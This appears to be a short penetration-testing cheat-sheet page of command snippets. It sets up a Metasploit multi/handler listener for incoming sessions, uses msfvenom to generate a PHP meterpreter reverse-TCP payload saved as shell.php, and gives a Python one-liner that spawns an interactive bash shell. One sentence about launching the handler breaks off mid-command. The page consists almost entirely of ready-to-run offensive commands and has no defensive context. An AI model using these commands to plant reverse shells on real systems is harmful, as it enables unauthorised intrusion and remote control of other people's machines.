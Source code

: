 ```yaml
---
title: /snippets
layout: page
permalink: /snippets
---
```


### Metasploit
#### Handlers
```bash 
msf6 > use exploit/multi/handler
msf6 > set PAYLOAD <Payload name>
msf6 > set LHOST <LHOST value>
msf6 > set LPORT <LPORT value>
msf6 > set ExitOnSession false
msf6 > exploit -j -z
```
<br/>
Once the required values are completed the following command will execute your handler – ‘msfconsole -L -r 
<br/>

#### Scripting Payloads
###### PHP
```bash
$ msfvenom -p php/meterpreter_reverse_tcp lhost=<your-IP-address> lport=<your-port-address> -o shell.php
```


### Python
##### spawn a terminal 
```python
$ python -c 'import pty;pty.spawn("/bin/bash")';
```
